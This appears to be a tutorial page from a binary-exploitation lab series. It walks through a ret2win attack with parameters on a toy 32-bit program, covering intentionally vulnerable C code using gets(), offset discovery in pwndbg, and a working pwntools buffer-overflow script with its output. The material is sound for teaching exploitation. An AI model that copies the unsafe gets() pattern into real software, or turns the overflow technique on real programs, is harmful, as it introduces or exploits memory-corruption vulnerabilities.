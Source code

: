 # 32-bit

{% file src="../../../.gitbook/assets/ret2win_params (1).zip" %}

### 1. Analysis

We will start by inspecting the binary in Ghidra. Ghidra is a decompiler which translates low-level machine code into pseudo-C code to trace the somewhat original code

Original code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


void flag(int check, int check2) {
    if(check == 0xFACEB00C && check2 == 0x8BADF00D) {
        puts("How are you here??");
    } else {
    	puts("So close, yet so far...");
    }
}

void vuln() {
    char buffer[40];

    printf("There's nothing to see here right?\n> ");
    gets(buffer);
}

int main() {
    vuln();
    return 0;
}
```

Check the file type

<pre><code><strong>❯ file ret2win_params
</strong>ret2win_params: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=4518b0f64749bbacbead832a7f5a1b89323d23c3, for GNU/Linux 3.2.0, not stripped
</code></pre>

Decompiled code (vuln function):

<figure><img src="../../../.gitbook/assets/image (388).png" alt=""><figcaption><p>vuln()</p></figcaption></figure>

You can also look at other decompiled functions in the Symbol Tree. Now, in this function we can clearly see the buffer is being read by <mark style="color:red;">gets</mark> which is a vulnerable function that reads more than the allocated bytes of the buffer

Let's take a look at `flag()`

<figure><img src="../../../.gitbook/assets/image (392).png" alt=""><figcaption><p>flag()</p></figcaption></figure>

Convert the values first into the original unsigned integers by right clicking and swap  to the char

<figure><img src="../../../.gitbook/assets/image (391).png" alt=""><figcaption></figcaption></figure>

That looks more like the original code. The function tries to take in two arguments to validate and will output the win message if the value of the arguments are correct.

***

### 2. Plan

Seems easy enough, we just do a ret2win style attack but we will supply the correct parameters, the first one being `0xfaceb00c` and the second one `0x8badf00d` .

Find the offset first

<pre><code><strong>pwndbg> cyclic 100
</strong>aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
</code></pre>

```
 EAX  0xffffce88 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
 EBX  0x6161616c ('laaa')
 ECX  0xf7f9b8ac (_IO_stdfile_0_lock) ◂— 0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0xffffcf8c —▸ 0xffffd1ac ◂— 'CLUTTER_IM_MODULE=ibus'
 EBP  0x6161616d ('maaa')
 ESP  0xffffcec0 ◂— 'oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
 EIP  0x6161616e ('naaa')
```

<pre><code><strong>pwndbg> cyclic -l naaa
</strong>Finding cyclic pattern of 4 bytes: b'naaa' (hex: 0x6e616161)
Found at offset 52
</code></pre>

Grab the address of `flag()` using gdb

<pre><code><strong>pwndbg> info functions
</strong>...
...
0x08049186  flag
</code></pre>

***

### 3. pwntools

To ease our exploits we will be utilizng pwntools from now on

{% content-ref url="../../pwntools.md" %}
[pwntools.md](../../pwntools.md)
{% endcontent-ref %}

pwntools comes with a lot of handy features such as `p32()` which is a function that automatically converts the address from Big-endian to Little-endian on a 32-bit binary. There is also `p64()` for 64-bit but we'll get to that later.

***

### 4. Exploit

```python
from pwn import *    

# Start the process
elf = context.binary = ELF('./ret2win_params', checksec=False)
context.log_level='debug'

io = process()

offset = 52                # Offset found using gdb
flag_address = 0x08049186   # Flag address
param_1 = 0xfaceb00c        # Parameter 1
param_2 = 0x8badf00d        # Parameter 2

payload = b'A' * offset            
payload += p32(flag_address)     
payload += p32(0x0)            # Need a valid return address (placeholder)
payload += p32(param_1)    
payload += p32(param_2)     

write('payload', payload)    # Write payload into file

io.sendline(payload)        # Send payload
log.info(io.clean())        # Clean buffer to display message

```

One thing that should make you wonder is the `0x0`. Unlike the previous example which we only return to the function to execute, we didn't care if the program crashed or not. As long as it printed our flag.

{% hint style="info" %}
In this case, we are required to provide parameters. When the EIP is filled with the `flag()` address. The EIP is going to look for the next instruction and this is where `0x0` (null return address) comes in, it acts as a placeholder so the stack won't misalign causing the process to crash .
{% endhint %}

<pre><code><strong>❯ python3 exploit.py
</strong>[+] Starting local process '/home/mfkrypt/pwn_blog/ret2win_params/ret2win_params': pid 927641
[DEBUG] Sent 0x45 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  86 91 04 08  00 00 00 00  0c b0 ce fa  │AAAA│····│····│····│
    00000040  0d f0 ad 8b  0a                                     │····│·│
    00000045
[DEBUG] Received 0x38 bytes:
    b"There's nothing to see here right?\n"
    b'> How are you here??\n'
/usr/lib/python3/dist-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] There's nothing to see here right?
    > How are you here??
[*] Stopped process '/home/mfkrypt/pwn_blog/ret2win_params/ret2win_params' (pid 927641)
</code></pre>

And just like that, we called `flag()` with the correct params. If you notice in the debug section in this part, the `00 00 00 00` is the null return address we inputted followed by `0xfaceb00c` and `0x8badf00d`&#x20;

```
[DEBUG] Sent 0x45 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  86 91 04 08  00 00 00 00  0c b0 ce fa  │AAAA│····│····│····│
    00000040  0d f0 ad 8b  0a                                     │····│·│
    00000045
```

